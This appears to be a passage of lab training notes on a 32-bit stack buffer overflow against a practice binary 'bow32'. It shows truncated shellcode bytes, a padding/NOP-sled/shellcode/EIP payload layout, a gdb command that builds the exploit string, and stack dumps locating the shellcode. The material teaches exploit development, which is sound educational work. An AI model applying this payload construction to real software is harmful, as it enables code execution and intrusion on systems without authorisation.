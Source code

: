 #### Shellcode

  ```shell-session
0xRh4ps00dy@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

#### Exploit with Shellcode

  Generating Shellcode

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

#### The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```

## Identification of the Return Address

#### GDB NOPS

```shell-session
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5f4:	0x55	0x55	0x55	0x55	0x55	0x55	0x90	0x90
								# End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd604:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd60c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd614:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd61c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd624:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd62c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
```
